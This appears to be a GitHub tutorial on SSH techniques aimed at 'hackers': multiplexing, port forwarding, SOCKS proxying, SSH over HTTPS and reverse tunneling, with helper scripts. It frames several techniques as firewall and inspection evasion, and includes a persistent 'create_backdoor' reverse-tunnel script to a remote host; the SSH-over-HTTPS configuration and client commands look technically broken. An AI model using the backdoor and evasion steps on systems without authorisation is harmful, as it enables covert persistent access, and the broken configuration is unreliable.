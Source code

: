 # 🚀 `SSH Mastery: Advanced Techniques for Hackers`

<div align="center">

```ascii
   _____  _____ _    _   __  __           _            
  / ____|/ ____| |  | | |  \/  |         | |           
 | (___ | (___ | |__| | | \  / | __ _ ___| |_ ___ _ __ 
  \___ \ \___ \|  __  | | |\/| |/ _` / __| __/ _ \ '__|
  ____) |____) | |  | | | |  | | (_| \__ \ ||  __/ |   
 |_____/|_____/|_|  |_| |_|  |_|\__,_|___/\__\___|_|   
```

</div>

## `Table of Contents`
1. [🔄 SSH Multiplexing](#-ssh-multiplexing)
2. [🔀 Advanced Port Forwarding](#-advanced-port-forwarding)
3. [🧪 SSH as a SOCKS Proxy](#-ssh-as-a-socks-proxy)
4. [🔌 SSH over HTTPS](#-ssh-over-https)
5. [📡 Reverse SSH Tunneling](#-reverse-ssh-tunneling)

---

## 🔄 `SSH Multiplexing`

> SSH multiplexing: One connection to rule them all!

<details>
<summary><strong>🔍 Why Use SSH Multiplexing?</strong></summary>

Imagine you're an administrator managing a cluster of 100 servers. Without multiplexing, each SSH connection would require its own TCP handshake, authentication, and encryption process. This can lead to noticeable delays, especially when executing commands across all servers. SSH multiplexing solves this by creating one master connection that all subsequent SSH sessions can utilize, dramatically reducing overhead and improving responsiveness.

</details>

### 📊 Multiplexing Diagram

```mermaid
graph TD
    A[Client] --> B[Master Connection]
    B --> C[SSH 1]
    B --> D[SSH 2]
    B --> E[SSH 3]
```

### 🛠️ Configuration Example:

```plaintext
ControlMaster auto
ControlPath ~/.ssh/controlmasters/%r@%h:%p
ControlPersist 10m
```

- `ControlMaster auto`: Automatically sets up a master connection if one doesn't exist.
- `ControlPath`: Specifies the path for the socket file used to communicate with the master connection.
- `ControlPersist 10m`: Keeps the master connection open for 10 minutes after the last session closes.

<details>
<summary><strong>🌟 Real-World Example</strong></summary>

Consider a scenario where you need to update a configuration file across 50 servers in a Kubernetes cluster. Without multiplexing, you'd need to establish 50 separate SSH connections, each with its own authentication process. With multiplexing, you establish one master connection, and all subsequent connections reuse this existing channel, significantly speeding up the process.

[Screenshot placeholder: Show a side-by-side comparison of network traffic with and without SSH multiplexing, highlighting the reduced number of connections and improved speed.]

</details>

### 🐍 Multiplexed Connection Manager:

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import subprocess
import time

def ssh_multiplex(action, host):
    control_path = f"~/.ssh/controlmasters/%r@{host}:%p"
    actions = {
        "check": ["ssh", "-O", "check", "-S", control_path, host],
        "stop": ["ssh", "-O", "stop", "-S", control_path, host],
        "start": ["ssh", "-fN", "-M", "-S", control_path, host]
    }
    if action == "check":
        return "Master running" in subprocess.run(actions[action], capture_output=True, text=True).stderr
    subprocess.run(actions[action])

def manage_connections(hosts):
    while True:
        for host in hosts:
            if ssh_multiplex("check", host):
                print(f"Connection to {host} active")
            else:
                print(f"Creating new connection to {host}")
                ssh_multiplex("start", host)
        time.sleep(60)  # Check every minute

# Usage
hosts = ["server1.example.com", "server2.example.com", "server3.example.com"]
manage_connections(hosts)
```

</details>

---

## 🔀 `Advanced Port Forwarding`

> Bend the network to your will with SSH port forwarding!

<details>
<summary><strong>🔍 Why Use Port Forwarding?</strong></summary>

Port forwarding enables you to:
1. Access services on remote networks as if they were local
2. Bypass firewalls and network restrictions
3. Secure otherwise insecure protocols by tunneling them through SSH

</details>

### 📊 Port Forwarding Diagram

```mermaid
graph LR
    A[Local Client] -->|SSH| B[SSH Server]
    B -->|MySQL| C[Remote MySQL Server]
    A -->|localhost:3306| C
```

### 🌐 Dynamic Port Forwarding:

```bash
ssh -D 8080 -f -C -q -N hacker@target
```

- `-D 8080`: Sets up a dynamic port forward on local port 8080
- `-f`: Runs in background
- `-C`: Compresses data
- `-q`: Quiet mode
- `-N`: Do not execute remote commands

### 🚀 Multi-Hop Port Forwarding:

```bash
ssh -L 3306:internal_db:3306 -J jumphost hacker@internal_host
```

This command forwards local port 3306 to `internal_db:3306` through `jumphost` and `internal_host`.

[Screenshot placeholder: Diagram showing the flow of traffic through multiple SSH hops, from the local machine to the final destination server.]

### 🐍 Auto Tunnel Manager:

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import subprocess
import time
import logging

logging.basicConfig(level=logging.INFO)

tunnels = [
    {"local": 8080, "remote_host": "app_server", "remote_port": 80, "ssh_host": "gateway"},
    {"local": 3306, "remote_host": "db_server", "remote_port": 3306, "ssh_host": "gateway"}
]

def manage_tunnel(t, action):
    cmd = f"ssh -L {t['local']}:{t['remote_host']}:{t['remote_port']} -N -f {t['ssh_host']}"
    if action == "create":
        subprocess.Popen(cmd, shell=True)
    elif action == "check":
        return subprocess.call(f"netstat -tln | grep :{t['local']}", shell=True) == 0

def main():
    while True:
        for t in tunnels:
            if not manage_tunnel(t, "check"):
                logging.info(f"Recreating tunnel: {t['local']} -> {t['remote_host']}:{t['remote_port']}")
                manage_tunnel(t, "create")
        time.sleep(60)

if __name__ == "__main__":
    main()
```

</details>

---

## 🧪 `SSH as a SOCKS Proxy`

> Turn your SSH connection into a stealth mode for your traffic!

<details>
<summary><strong>🔍 Why Use SSH as a SOCKS Proxy?</strong></summary>

1. Bypass network restrictions
2. Anonymize your internet traffic
3. Secure your connection on untrusted networks
4. Access geo-restricted content

</details>

### 📊 SOCKS Proxy Diagram

```mermaid
graph LR
    A[Local Client] -->|SOCKS| B[SSH Server]
    B -->|HTTP| C[Remote Website]
```

### 🛠️ Setup SOCKS Proxy:

```bash
ssh -D 1080 -f -C -q -N hacker@proxy_server
```

### 🚀 Usage Examples:

- **curl:**
  ```bash
  curl --socks5 localhost:1080 http://secret-site.com
  ```

- **git:**
  ```bash
  git config --global http.proxy socks5://localhost:1080
  ```

[Screenshot placeholder: Terminal window showing the setup of a SOCKS proxy and subsequent usage with curl and git, demonstrating successful access to previously blocked resources.]

### 🦊 Traffic Router Script:

<details>
<summary><strong>Click to view Bash script</strong></summary>

```bash
#!/bin/bash

# Start proxy
ssh -D 1080 -f -C -q -N hacker@proxy_server

# Route traffic
sudo iptables -t nat -A OUTPUT -p tcp -j REDIRECT --to-ports 1080

# Run your app
your_stealthy_app

# Clean up
sudo iptables -t nat -D OUTPUT -p tcp -j REDIRECT --to-ports 1080
pkill -f "ssh -D 1080"
```

</details>

---

## 🔌 `SSH over HTTPS`

> Hide your SSH in plain sight!

<details>
<summary><strong>🔍 Why Use SSH over HTTPS?</strong></summary>

1. Bypass firewalls that block SSH traffic
2. Evade deep packet inspection
3. Access SSH services in restrictive environments
4. Maintain SSH access without arousing suspicion

</details>

### 📊 SSH over HTTPS Diagram

```mermaid
graph LR
    A[SSH Client] -->|HTTPS| B[Apache Server]
    B -->|SSH| C[SSH Server]
```

### 🛠️ Server Configuration:

<details>
<summary><strong>Click to view Apache configuration</strong></summary>

```apache
<VirtualHost *:443>
    ServerName ssh.secret-site.com
    SSLEngine on
    SSLCertificateFile /path/to/cert.pem
    SSLCertificateKeyFile /path/to/key.pem

    ProxyPass / http://localhost:22/
    ProxyPassReverse / http://localhost:22/
</VirtualHost>
```

</details>

### 🚀 Client-Side Configuration:

```bash
#!/bin/bash

curl -x socks5h://localhost:1080 https://ssh.secret-site.com
ssh -o ProxyCommand="curl -x socks5h://localhost:1080 %h" hacker@ssh.secret-site.com
```

[Screenshot placeholder: Network traffic analysis showing SSH traffic successfully disguised as HTTPS, bypassing firewall restrictions.]

---

## 📡 `Reverse SSH Tunneling`

> Make the server come to you!

<details>
<summary><strong>🔍 Why Use Reverse SSH Tunneling?</strong></summary>

1. Access machines behind NAT or restrictive firewalls
2. Provide remote support without port forwarding
3. Maintain persistent access to remote systems
4. Create backdoors for penetration testing (with proper authorization)

</details>

### 📊 Reverse SSH Tunneling Diagram

```mermaid
graph RL
    A[Remote Server] -->|SSH| B[SSH Server]
    B -->|SSH| C[Local Machine]
```

### 🛠️ Setup Reverse Tunnel:

```bash
ssh -R 9999:localhost:22 hacker@remote_server
```

### 🐍 Auto Reverse Tunnel:

<details>
<summary><strong>Click to view Python script</strong></summary>

```python
import subprocess
import time
import logging

logging.basicConfig(level=logging.INFO)

def create_backdoor():
    cmd = "ssh -R 9999:localhost:22 -N hacker@remote_server"
    subprocess.Popen(cmd, shell=True)
    logging.info("Reverse SSH tunnel created")

def main():
    while True:
        create_backdoor()
        time.sleep(3600)  # Recreate tunnel every hour

if __name__ == "__main__":
    main()
```

</details>

[Screenshot placeholder: Diagram illustrating the flow of a reverse SSH tunnel, showing how the local machine initiates the connection and how traffic flows back through the tunnel.]

---

<div align="center">

> Remember: With great power comes great responsibility. Use these techniques ethically and legally! 🛡️

</div>

